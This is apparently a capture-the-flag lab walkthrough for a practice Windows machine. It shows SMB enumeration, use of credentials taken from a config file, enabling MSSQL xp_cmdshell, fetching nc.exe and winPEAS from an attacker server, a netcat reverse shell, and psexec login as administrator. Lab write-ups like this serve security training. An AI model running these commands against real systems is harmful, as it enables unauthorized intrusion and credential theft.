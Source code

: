 # ARCHETYPE

STARTING POINT - TIER 2

## Enumeration

**Nmap scan**

```bash
nmap -sC -sV 10.129.210.53
```

![nmap1](pics/nmap1.png)

![nmap2](pics/nmap2.png)

## Exploitation

**Connect SMB**

```bash
smbclient -N -L \\\\10.129.210.53\\
```

![smb1](pics/smb1.png)

- Connect via backups user

```bash
smbclient -N \\\\10.129.210.53\\backups
```

![smb2](pics/smb2.png)

**Get config file**

```bash
get prod.dtsConfig
```

![smb3](smb3.png)

**Exit SMB Server and read config file**

![config](pics/config.png)

**Connect to MSSQL by using `mssqlclient.py`**

```bash
/usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.129.210.53 -windows-auth
```

![mssql1](pics/mssql1.png)

- Password is in config file.

**Enable xp_cmdshell**

![mssql2](pics/mssql2.png)

![mssql3](pics/mssql3.png)

**Prepare some tools for Windows Exploitation**

![tool](pics/tool.png)

- nc.exe
- winPEASx64.exe

**Open a Server**

```bash
sudo python3 -m http.server 80
```

![server](pics/server.png)

**At victim machine, connect to attacker machine then download `nc.exe`**

```bash
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.15.235/nc.exe -outfile nc.exe"
```

![sql1](pics/sql1.png)

```bash
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.15.235/winPEASx64.exe -outfile winpeas.exe"
```

![sql2](pics/sql2.png)
**Create a reverse shell**

```bash
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.15.235 4444"
```

![shell1](pics/shell1.png)

![shell2](pics/shell2.png)

**`cd` to Desktop then list all files**

![dir](pics/dir.png)

**Read `user.txt` file**

![type](pics/type.png)

**Run `winPEASx64.exe`**

```bash
.\winpeas.exe
```

![winpeas](pics/winpeas.png)

- Found a file store information about Administrator

![file1](pics/file1.png)

- Read contents of the file

![file2](pics/file2.png)

**Using `impacket-psexec` to connect server as administrator**

```bash
/usr/bin/impacket-psexec administrator@10.129.210.53
```

![win](pics/win.png)

**Move to Desktop and read get secret file**

![root](pics/root.png)
